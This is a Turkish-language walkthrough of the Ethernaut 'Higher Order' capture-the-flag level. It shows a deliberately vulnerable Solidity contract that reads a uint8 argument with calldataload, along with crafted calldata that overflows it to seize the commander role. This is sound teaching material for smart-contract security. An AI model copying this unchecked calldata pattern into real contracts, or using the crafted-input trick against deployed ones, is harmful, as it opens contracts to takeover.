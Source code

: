 # ETHERNAUT SORU 30: HIGHER ORDER

>Imagine a world where the rules are meant to be broken, and only the cunning and the bold can rise to power. Welcome to the Higher Order, a group shrouded in mystery, where a treasure awaits and a commander rules supreme.
>
>Your objective is to become the Commander of the Higher Order! Good luck!

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.6.12;

contract HigherOrder {
    address public commander;

    uint256 public treasury;

    function registerTreasury(uint8) public {
        assembly {
            sstore(treasury_slot, calldataload(4))
        }
    }

    function claimLeadership() public {
        if (treasury > 255) commander = msg.sender;
        else revert("Only members of the Higher Order can become Commander");
    }
}
```

Soruyu çözmek için `treasury` değişkenini 255'ten büyük bir değere eşitlememiz yeterlidir.
Bunun için `registerTreasury` fonksiyonunu bir şekilde 255'ten büyük bir değerle çalıştırmalıyız. `uint8` değeri `calldataload` ile okunduğu için bu mümkündür.

Eğer `registerTreasury` fonsiyonunu 1 ile çağırırsak `CALLDATA` şu şekilde olur:

```
211c85ab // 0-3 BYTES, fonksiyon seçicisi (registerTreasury)
0000000000000000000000000000000000000000000000000000000000000001 // 4-35 BYTES, uint8 değer
```

Görüldüğü üzere verilen `uint8` değer 32-byte formatına uyarlanarak yazılmaktadır. Ve bu da 4-35 byte'larına istediğimiz `uint256` değerini verebileceğimiz anlamına gelir. Çözmek için ilk bitini 1 yapmak yeterlidir:

```
211c85ab // 0-3 BYTES, fonksiyon seçicisi (registerTreasury)
1000000000000000000000000000000000000000000000000000000000000000 // 4-35 BYTES, uint8 değer (MODIFIED)
```

Kontrakt bu data ile çalıştırıldığında soru çözülür.
